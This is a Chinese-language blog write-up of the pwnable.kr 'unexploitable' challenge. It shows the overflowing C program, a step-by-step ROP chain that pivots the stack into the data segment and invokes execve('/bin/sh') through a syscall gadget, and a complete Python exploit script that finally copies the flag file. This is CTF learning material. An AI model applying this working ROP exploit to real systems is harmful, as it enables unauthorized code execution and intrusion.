```yaml
---
title: unexploitable
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/11/14/unexploitable
  - /writeup/2014/11/14/unexploitable/
tags:
  - exploit
  - pwnable.kr
---
```


这次是500分的rop

{% highlight c %}
#include <stdio.h>
void main(){
        printf("Not all the bugs are exploitable.\n");
        printf("Try to exploit this one and you will see.\n");
        printf("Or.. maybe you can prove otherwise :)\n");

        // exploit me
        int buf[4];
        read(0, buf, 1295);
}
{% endhighlight %}

溢出很明显。但单看C代码，信息量太小，必须看汇编。

由于开了NX和ASLR，只能ROP了。由于在`0x40056f`处有`syscall`，所以我的思路是执行`execve("/bin/sh",["/bin/sh",NULL],...)`

具体地，我跳了好几次

1. 溢出，返回再次`read`，而且把`rbp`设到可写的`0x601xxx`那里；
2. 由于`rbp`在`data`段，这次的`read`，可以确定所写东西的地址。我们把第3次用到的栈上的数据写到这里。由于上次的`rbp`可控，当执行完`read`到`leave;ret`时 ，我们让他跳到第3次`read`
3. 这次是将字符串`/bin/sh`和地址写到固定地址。这样就把`execve`的参数准备好了。这次结束后，返回到`0x4005f6`
4. 通过一系列`mov ...`，把各个寄存器的值设好。然后返回`0x4005e0`
5. 这里就通过设`rdx`等寄存器，`call qword [r12+rbx*8]`来执行最终的`execve`

大体思路就是这样。然后比较麻烦的是，我不知道怎么与他交互……pwntool用不了，python还是不熟……于是最后用的是将flag文件拷贝一份为可读的……

下面是代码

{% highlight python %}
#!/usr/bin/env python2

from struct import *
import subprocess
import time

sh = "/bin/sh\x00"
cmd = "install -m666 /home/unexploitable/flag /tmp/flag1\n"

data1 = 0x601100
data2 = 0x601200

payload1 = "A"*0x10
payload1 += pack("<Q", data1+0x10) #saved rbp
payload1 += pack("<Q", 0x40056a) #ret addr: ...; read

#data1
payload2 = "B"*0x10
payload2 += pack("<Q", data2+0x10) #saved rbp
payload2 += pack("<Q", 0x40056a) #ret addr: ...; read
payload2 += "B"*0x8
payload2 += pack("<Q", 0x4005f6)#ret addr: mov reg ...
payload2 += pack("<Q", 0x40056f) #0f05 syscall
payload2 += pack("<Q", 0)#rbx
payload2 += pack("<Q", 0)#rbp
payload2 += pack("<Q", data1+0x10+0x8+0x8+0x8+0x8)#r12
payload2 += pack("<Q", data2+0x10+0x8+0x8)#r13 -> edi -> '/bin/sh'
payload2 += pack("<Q", data2+0x10+0x8+0x8+len(sh))#r14 -> rsi -> argv
payload2 += pack("<Q", data2+0x10+0x8+0x8+len(sh))#r15 -> rdx -> envp
payload2 += pack("<Q", 0x4005e0) #ret addr: mov r13 edi; ...

#data2
payload3 = "C"*0x10
payload3 += pack("<Q", data1+0x20) #saved rbp
payload3 += pack("<Q", 0x400585)#ret addr: leave; ret
payload3 += sh
payload3 += pack("<Q", data2+0x10+0x8+0x8)
payload3 += pack("<Q", 0)
payload3 += "C"*(0x3b-0x10-0x8-0x8-len(sh)-0x8-0x8)


exe = subprocess.Popen(["/home/unexploitable/unexploitable"],stdin=subprocess.PIPE)
exe.stdin.write(payload1)
time.sleep(1)
exe.stdin.write(payload2)
time.sleep(1)
exe.stdin.write(payload3)
time.sleep(1)
print "======="
exe.stdin.write(cmd)
{% endhighlight %}
